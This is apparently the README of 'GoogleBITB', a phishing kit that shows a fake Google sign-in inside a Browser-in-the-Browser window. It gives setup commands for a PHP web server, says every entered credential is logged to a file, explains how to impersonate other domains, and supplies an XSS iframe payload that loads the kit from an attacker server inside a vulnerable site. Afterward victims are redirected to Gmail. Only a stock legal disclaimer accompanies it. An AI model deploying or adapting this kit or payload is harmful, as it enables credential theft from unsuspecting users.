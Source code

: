 # GoogleBITB

This repo contains a fake two-part Google Login implemented within a Browser-In-The-Browser attack window. It can be used on a web server that supports PHP files. Any entered credentials are saved in <i>/opt/GoogleBITB/creds.txt</i>. The Domain Suffix can be changed from <b>@client.com</b> to any site of your choosing (to do this, just edit line 21 of login_page.html). Follow steps below for a quick and easy setup.

<p align='center'>
<img alt='Email Page' src='http://165.227.79.102/img/4.png?q=1' style='width:800px;'/>
</p>

Legal Disclaimer: Usage of this repo for attacking targets without prior consent is illegal. It is the end user's responsiblity to obey applicable local, state and federal laws. Developer assumes no liability for any misuse or damage caused by this repo.

### Get Started

Run the below commands in the <b>/var/www/html</b> folder of your web server.

```
git clone https://github.com/jakedmurphy1/GoogleBITB.git
```

```
cd GoogleBITB
```

```
chmod 666 creds.txt
```
Move the credentials file into a non-public folder:
```
mkdir /opt/GoogleBITB && mv creds.txt /opt/GoogleBITB/creds.txt
```

Then visit <b>/GoogleBITB/index.html</b> in your browser and give it a try! Any gathered credentials will be stored in <b>/opt/GoogleBITB/creds.txt</b>

Users will be prompted to close the window and redirected to gmail.com.

### Getting Creds from a XSS Attack

You can use this repo to steal credentials through a XSS attack. Just set it up and use the following XSS payload:
```
<iframe style='border:none;width:100%;height:100%' scrolling='no' src='https://[ATTACKER_SERVER]/GoogleBITB/index.html'/>
```
<i> Be sure to have HTTPS on your server or the iframe will not render.</i>

This payload will create a frame within frame (inception) prompting the user to sign in from what appears to be the vulnerable application. 

### Sources
https://github.com/jakedmurphy1/GooglePhishing

https://github.com/mrd0x/BITB
